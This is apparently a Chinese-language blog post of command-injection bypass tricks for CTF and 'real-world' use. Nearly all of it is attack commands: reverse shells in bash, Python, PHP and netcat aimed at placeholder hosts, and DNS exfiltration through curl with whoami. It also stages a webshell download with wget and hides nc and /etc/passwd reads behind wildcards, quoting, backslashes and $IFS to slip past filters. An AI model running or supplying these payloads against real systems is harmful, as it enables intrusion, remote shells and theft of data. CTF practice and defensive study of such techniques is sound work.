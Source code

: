 ```yaml
---
layout: post
title: "命令注入bypass总结（长期更新）"
subtitle: "一些各种实战奇淫技巧,CTF Trick"
date: 2018-12-20
author: bPJoanna
category: Paper
finished: true
---
```

[TOC]

```bash
sh -c "cmd"


bash -i >& /dev/tcp/ip/port 0>&1

python -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('ip',port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);"

php -r 'exec("bash -i >& /dev/tcp/ip/port 0>&1");'

php -r '$sock=fsockopen("ip",port);exec("/bin/bash -i <&3 >&3 2>&3");'

nc -e /bin/bash ip port


```

```bash
` & || | $()

%0a 换行符

%0d 回车符

;   连续指令

a=l;b=s;$a$b 局部变量

curl `whoami`xxxx.xxx  DNS管道解析
```



==Trick==
```bash
1>wget\
1>xxx.com.\
1>com\
1>-O\
1>she\
1>ll.p\
1>p
ls -t>a
sh a
```
> ls -t 是按照时间顺排序


http://2130706433   IP转10进制

http://0x7F000001   IP转16进制

> 转化网址：http://www.msxindl.com/tools/ip/ip_num.asp

## 通配符


```bash
/???/n? -e /???/b??h 127.0.0.1 6666

bin/nc -e /bin/bash 127.0.0.1 6666

/???/c?t /?t?/p??swd
```



```
*    代表『 0 个到无穷多个』任意字符
?    代表『一定有一个』任意字符
[ ]    同样代表『一定有一个在括号内』的字符(非任意字符)。例如 [abcd] 代表『一定有一个字符， 可能是 a, b, c, d 这四个任何一个』
[ - ]    若有减号在中括号内时，代表『在编码顺序内的所有字符』。例如 [0-9] 代表 0 到 9 之间的所有数字，因为数字的语系编码是连续的！
[^ ]    若中括号内的第一个字符为指数符号 (^) ，那表示『反向选择』，例如 [^abc] 代表 一定有一个字符，只要是非 a, b, c 的其他字符就接受的意思
```


## cat flag->


```bash
cat fla[a-z]


cat fl[a]g

cat f``lag

c’a’t /f’la’g

cat fl??

cat f*
cat $(echo -n "base64加密的flag" | base64-d)

cat `echo -n "base64加密的flag" | base64-d`

c\at /fl\ag

head /`ls /|grep 'fla'

a=c;b=at;c=fl;d=ag;$a$b $c$d
```


## 利用历史执行记录来bypass
```bash
root@kali$ cat
root@kali$ fl
root@kali$ ag

root@kali$ history
1.cat
2.fl
3.ag

root@kali$ !1!2!3
flag{ea3y_bypa3s_inj3ct1on}

```


==过滤空格的时候==

```bash
cat${IFS}flag

cat$IFS$9flag

<

``
```

%09 (需要php环境)



## 命令终止符


```
%00 %20
```

## 其他绕过

```bash
cat$u /etc$u/passwd$u

/?in/cat /?tc/p?sswd

/'b'i'n'/'c'a't' /'e't'c'/'p'a's's'w'd

/"b"i"n"/"w"h"i"c"h" "n"c

/b\i\n/w\h\i\c\h n\c


```

## 写文件

Windows


```
echo 48 65 6C 6C 6F 2C 57 6F 72 6C 64 21 >hex.txt
生成 hex.txt，机器码对应的内容是 Hallo World!
certutil -decodehex hex.txt bin.txt
也可以base64解码
certutil -decode hex.txt bin.txt
```

Linux

```bash
echo -e "\x61">1.txt
```


